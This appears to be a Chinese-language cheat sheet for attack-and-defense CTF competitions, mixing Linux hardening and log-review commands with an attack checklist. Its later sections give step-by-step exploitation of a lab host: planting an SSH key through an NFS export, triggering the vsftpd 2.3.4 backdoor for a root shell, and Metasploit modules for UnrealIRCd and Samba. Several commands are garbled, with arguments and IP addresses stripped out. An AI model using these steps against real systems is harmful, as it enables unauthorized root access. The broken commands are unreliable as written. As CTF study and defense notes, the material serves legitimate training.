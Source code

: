 ## 准备
[reverse shell manager](https://github.com/WangYihang/Platypus)
[web shell manager](https://github.com/WangYihang/Webshell-Sniper)
* 备份www
* 备份passwd
* linux_check
* 修改默认口令 
* 配置waf，文件监控，日志记录 
* getflag所需命令改名
* 改cd ls curl wget常用命令
* /var/www/html/ 设置为不可写
## 防御
* netstat：端口，连接排查方法 
* 如何kill进程/防止kill
* 改rw/a权限
* 目录禁止写入
* 删解释器
* sql防注入代码
* 日志管理
* 文件监控
* umask?
* 网络端口监控
* waf过滤sqlmap  //sql改head
* 上传漏洞防护
* webshell扫描器


## 攻击
* 提权脚本
* 白盒审计工具
* 批量端口扫描 http，爆破phpmyadmin ssh mysql
* 上传、权限维持脚本
* 扫描webshell,路径爆破
* 端口扫描
* Cain4.9 多口令破解测试
* arp欺骗工具
* Wordpress 综合检测工具?
* 各大cms get shell
* 后门批量上传，管理
* 后门开机启动 定时运行
* 自动化程度提高
* php 5.10 poc
* xss 打cookie
* 自动化攻击，提交
* 中国特色字典

```bash
lsb_release  -a
file /bin/ls
getconf LONG_BIT
cat /etc/issue
uname -a
whoami
ssh user@remote_server tail -f /var/log/apache2/access.log | ngxtop -f
ssh msfadmin@192.168.189.131 tail -f /var/log/apache2/access.log | ngxtop -f 
```
## 虚拟化判断
https://www.bboysoul.com/2017/11/08/%E6%8E%A8%E8%8D%90%E4%B8%80%E4%B8%AA%E5%8F%AF%E4%BB%A5%E5%88%A4%E6%96%AD%E4%BD%A0%E7%9A%84vps%E4%BD%BF%E7%94%A8%E4%BB%80%E4%B9%88%E8%99%9A%E6%8B%9F%E5%8C%96%E6%8A%80%E6%9C%AF%E7%9A%84%E5%B7%A5%E5%85%B7/
    
https://people.redhat.com/~rjones/virt-what/

## 发现
angry ip scanner
nmap
msscan
## 常用命令

```shell
scp 文件路径 用户名@IP:存放路径
who 查看tty
pkill ‐kill ‐t <用户tty>
#查看已建立的网络连接及进程
netstat ‐antulp | grep EST
#查看指定端口被哪个进程占用
lsof ‐i:端口号 或者 netstat ‐tunlp|grep 端口号
#结束进程命令
kill PID
killall <进程名>
kill ‐ <PID>
#封杀某个IP或者ip段，如:.
iptables ‐I INPUT ‐s . ‐j DROP
iptables ‐I INPUT ‐s ./ ‐j DROP #禁止从某个主机ssh远程访问登陆到本机，如123..
iptable ‐t filter ‐A INPUT ‐s . ‐p tcp ‐‐dport ‐j DROP 
#备份mysql数据库
mysqldump ‐u 用户名 ‐p 密码 数据库名 > back.sql
mysqldump ‐‐all‐databases > bak.sql
#还原mysql数据库
mysql ‐u 用户名 ‐p 密码 数据库名 < bak.sql
find / *.php ‐perm
awk ‐F: /etc/passwd
crontab ‐l
#检测所有的tcp连接数量及状态
netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn 
#查看页面访问排名前十的IP
cat /var/log/apache2/access.log | cut ‐f1 ‐d
r | head ‐
#查看页面访问排名前十的URL
cat /var/log/apache2/access.log | cut ‐f4 ‐d
r | head ‐
```
netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn
win:netstat -no 查看网络链接
# 防御&&attack

## 防篡改

chattr +i /etc/profile
chattr -R +i /var/www/html
chattr +a /var/log 只能追加

## 进程检查

如果我们怀疑某个进程正在是受到溢出攻击后创建的shell进程，我们可以分析这个进程是否有socket连接，linux中查看指定进程socket 连接数的命令为:
比如我们查看ssh进程的socket连接。如果我们检测的程序有socket连接，说明它正在进行网络通信，我们就需要进行进一步判断。


## 检查nfs

rpcinfo -p 192.168.189.131
showmount -e
 mkdir /tmp/r00t

 mount -t nfs 192.168.99.131:/ /tmp/r00t/

 cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys 

 umount /tmp/r00t


 ssh root@192.168.99.131

## ftp ssh 配置文件检查

    telnet 192.168.99.131 21

    Trying 192.168.99.131…

    Connected to 192.168.99.131.

    Escape character is &#039;^]&#039;.

    220 (vsFTPd 2.3.4)

    user backdoored:)

    331 Please specify the password.

    pass invalid

    ^]

    telnet> quit

telnet 192.168.99.131 6200

Trying 192.168.99.131…

Connected to 192.168.99.131.

Escape character is &#039;^]&#039;.

id;

uid=0(root) gid=0(root)

## 6667端口上运行着UnreaIRCD IRC

 use exploit/unix/irc/unreal_ircd_3281_backdoor
 getshell

## ingreslock 后门

telnet 192.168.99.131 1524

## smb后门

配置为文件权限可写同时"wide links" 被允许（默认就是允许），同样可以被作为后门而仅仅是文件共享。下面例子里，metasploit提供一个攻击模块，允许接入一个root文件系统通过一个匿名接入和可写入的共享设置。
smbclient -L //192.168.99.131
 use auxiliary/admin/smb/samba_symlink_traversal 
 set RHOST 192.168.99.131
  set SMBSHARE tmp
  exploit 

 smbclient //192.168.99.131/tmp
 getshell
 
## dwa后门

Default username = admin
Default password = password

##php 漏洞
CVE–2012-1823和 CVE–2012-2311


# 查看页面访问排名前十的IP

netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn 

http://bobao.360.cn/ctf/learning/210.html  
https://bbs.ichunqiu.com/thread-25092-1-1.html?from=aqzx2